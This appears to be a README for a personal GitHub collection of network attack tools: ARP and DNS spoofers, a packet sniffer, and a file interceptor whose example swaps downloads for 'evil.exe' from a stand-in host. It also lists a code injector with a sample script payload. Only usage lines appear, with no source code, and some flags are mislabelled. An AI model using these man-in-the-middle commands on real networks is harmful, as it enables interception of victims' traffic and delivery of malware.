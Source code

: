 # Tools
Just miscellaneous tools that I have made to use for cyber security and network automation.

## MAC Address Changer
A Tool to Change MAC address

Usage: 	`macchanger.py -i wlan1 -m 42:69:42:69:42:69`

`-i, -iface, -interface` for your interface

`-m, --mac` for your desired mac address

## Network Scanner
A tool to scan the network for devices IP Addresses and MAC Addresses

Usage: `netscan.py -t 127.0.0.1/24`

`-t, --target` for your desired IP to scan

Note: You can scan subnet via `/24` and more by adding after the IP

## ARP Spoofer
A tool to spoof ARP traffic from the victims device to the Attacker

Usage: `arpspoof.py -t 127.0.0.1 -s 127.0.0.1`

`-t, --target` for your victims IP 

`-s, --spoof` for the gateway IP to spoof

## Network Sniffer
A Tool to sniff packets

Usage: 	`netsniff.py -i wlan1`

`-i, --iface, --interface` for your interface

## File Interceptor
A tool to intercept files on the network and replace them with the attackers

Usage: `intercept.py -e .exe -s http://example.com/evil.exe`

`-e, --ext` for your extension you want to replace

`-u --url` for the url of the file to change

## DNS Spoofer
A tool to spoof DNS traffic from the victims device to the Attacker

Usage: `dnsspoof.py -t example.com -ip 127.0.0.1`

`-t, --target` for your victims IP 

`-ip` for the IP to of the server to reroute to

## Code Injector
A Tool to inject code on network

Usage: 	`netsniff.py -i <script>alert('pwn');</script>`

`-i, --inject` for your code to inject
